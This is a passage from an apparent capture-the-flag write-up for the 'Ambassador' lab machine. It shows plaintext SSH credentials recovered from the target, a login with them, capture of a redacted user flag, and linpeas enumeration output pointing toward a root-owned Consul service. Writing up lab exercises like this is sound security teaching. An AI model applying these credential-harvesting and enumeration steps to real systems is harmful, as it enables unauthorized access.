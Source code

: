 Potential SSH Credentials:
```
developer:anEnglishManInNewYork027468
```

Logging in via SSH works with above credentials:

```bash
$ ssh developer@ambassador.htb 
developer@ambassador.htb's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-126-generic x86_64)
...
Last login: Fri Sep  2 02:33:30 2022 from 10.10.0.1
developer@ambassador:~$
```

### Flag

The user flag can be found inside `developer`'s home directory:

```bash
developer@ambassador:~$ cat user.txt 
6d278***************************
```

## Root

Running [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) provides interesting output:

```bash 
root        1097  0.3  3.7 794292 75460 ?        Ssl  19:40   0:18 /usr/bin/consul agent -config-dir=/etc/consul.d/config.d -config-file=/etc/consul.d/consul.hcl     

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 127.0.0.1:8500          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:8600          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -                    
tcp        0      0 0.0.0.0:3306            0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:8300          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:8301          0.0.0.0:*               LISTEN      -                    
tcp        0      0 127.0.0.1:8302          0.0.0.0:*               LISTEN      -                    
tcp6       0      0 :::22                   :::*                    LISTEN      -                    
tcp6       0      0 :::3000                 :::*                    LISTEN      -                    
tcp6       0      0 :::80                   :::*                    LISTEN      - 

╔══════════╣ Analyzing Github Files (limit 70)

-rw-rw-r-- 1 developer developer 93 Sep  2 02:28 /home/developer/.gitconfig


drwxrwxr-x 8 root root 4096 Mar 14  2022 /opt/my-app/.git

```